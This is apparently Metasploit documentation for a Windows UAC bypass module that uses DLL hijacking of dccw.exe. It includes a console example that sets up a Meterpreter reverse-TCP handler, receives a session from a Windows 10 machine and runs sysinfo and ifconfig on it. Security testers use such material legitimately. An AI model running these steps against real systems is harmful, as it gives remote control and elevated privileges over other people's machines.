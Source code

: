 ## Vulnerable Application

This module adds a bypass for UAC that relies on DLL hijacking of the dccw.exe process.  It has been tested on and 
supports both x86 and x64 releases of Windows 8, 8.1, 10_1511, 10_1607, and 10_1703.  It does not work with any versions of Windows 7.

Not Applicable; works on stock Windows releases.

### Running Example:
```
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
> set LHOST <MSF_IP>
LHOST => <MSF_IP>
>  set LPORT 30009
LPORT => 30009
>  show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     <MSF_IP>         yes       The listen address
   LPORT     30009            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


> run -z
[*] Started reverse TCP handler on <MSF_IP>:30009 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to <Win10x86_IP>
[*] Meterpreter session 1 opened (<MSF_IP>:30009 -> <Win10x86_IP>:50041) at 2017-10-03 12:17:42 -0700
[*] Session 1 created in the background.
> sessions -C sysinfo
[*] Running 'sysinfo' on meterpreter session 1 (<Win10x86_IP>)
Computer        : WIN10X86-1511
OS              : Windows 10 (Build 10586).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
> sessions -C ifconfig
[*] Running 'ifconfig' on meterpreter session 1 (<Win10x86_IP>)

Interface  1
============
```